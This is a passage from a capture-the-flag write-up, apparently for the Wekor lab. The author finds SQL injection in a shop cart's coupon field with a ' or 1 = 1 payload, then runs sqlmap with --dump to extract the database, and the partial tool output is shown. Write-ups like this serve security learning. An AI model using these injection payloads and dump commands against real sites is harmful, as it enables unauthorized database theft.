 This ran for hours without finding anything. At this point I was stuck, so I went back to take one more look at the sites I found before. 


### it.next - Again

I took a second look at the it.next site. The room description mention SQL Injection, so I looked closer to any fields in the pages. I had already tried it on the search form. But on my first pass, I had missed the coupon field in the [Cart](http://wekor.thm/it-next/it_cart.php).

![Coupon](/assets/images/2021/06/Wekor/04_InvalidCoupon.png "Coupon")

I tried the basic `' or 1 = 1 -- -` and it worked on the first try. 

![SQLi](/assets/images/2021/06/Wekor/05_SQLInjection.png "SQLi")

Now I knew where to get the admin password. If I could dump the database, I would probably get the admin password.

I started sqlmap to exploit the SQL Injection. 

```bash
$ sqlmap -u http://wekor.thm/it-next/it_cart.php --forms "coupon_code=%27+or+1+%3D+1+Limit+0%2C+1+--+-&apply_coupon=Apply+Coupon" --dump
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.5.6#stable}
|_ -| . ["]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not r
esponsible for any misuse or damage caused by this program

[*] starting @ 11:24:56 /2021-06-27/

[11:24:56] [INFO] testing connection to the target URL
[11:24:57] [INFO] searching for forms
[11:24:58] [INFO] found a total of 3 targets
[#1] form:
POST http://wekor.thm/it-next/it_cart.php
POST data: coupon_code=&apply_coupon=Apply%20Coupon
do you want to test this form? [Y/n/q]

Edit POST data [default: coupon_code=&apply_coupon=Apply%20Coupon] (Warning: blank fields detected):
do you want to fill blank fields with random values? [Y/n]
[11:25:04] [INFO] resuming back-end DBMS 'mysql'
```